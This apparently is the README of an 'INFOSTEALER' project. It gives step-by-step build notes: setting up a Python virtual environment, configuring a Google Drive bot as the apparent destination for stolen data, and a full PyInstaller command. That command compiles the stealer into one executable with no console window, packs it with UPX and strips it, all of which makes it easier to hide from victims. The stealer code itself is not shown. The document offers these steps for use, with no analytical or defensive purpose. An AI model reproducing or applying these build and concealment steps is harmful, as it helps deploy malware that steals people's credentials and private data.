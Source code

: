 # INFOSTEALER
----------------------------------------------------
- python env: https://coderslegacy.com/pyinstaller-virtual-environment-with-venv/
- folder id: https://robindirksen.com/blog/where-do-i-get-google-drive-folder-id
- google drive bot: https://obikastanya.medium.com/easy-way-to-integrate-your-python-apps-with-google-drive-api-2f29ed0be239
----------------------------------------------------
python -m venv [env name]
(link)
pip list
pip install -r requirements.txt

(last step - after full config - google drive)
\[env name]\Scripts\pyinstaller.exe 
--noconsole --onefile --clean
--paths '[path]\[env name]\Lib\site-packages' 
--upx-dir 'D:\Programs\UPX\upx-4.0.2-win64'  
--exclude-module altgraph 
--exclude-module colorama 
--exclude-module charset-normalizer 
--exclude-module idna 
--exclude-module zope.interface 
--exclude-module importlib-metadata 
--exclude-module install 
--exclude-module Jinja2 
--exclude-module MarkupSafe 
--exclude-module protobuf 
--exclude-module pyasn1-module 
--exclude-module pytz 
--exclude-module Werkzeug 
--exclude-module urllib3 
--exclude-module zip 
--exclude-module certifi 
--exclude-module google-auth-httplib2 
--exclude-module googleapis-common-protos  
--exclude-module google-auth 
--exclude-module google-api-core 
--exclude-module google-api-python-client 
--exclude-module pyinstaller 
--exclude-module setuptools 
--exclude-module requests 
--exclude-module pycryptodome 
--exclude-module pip 
--exclude-module Flask 
--exclude-module DateTime 
--strip 
--name infost main.py


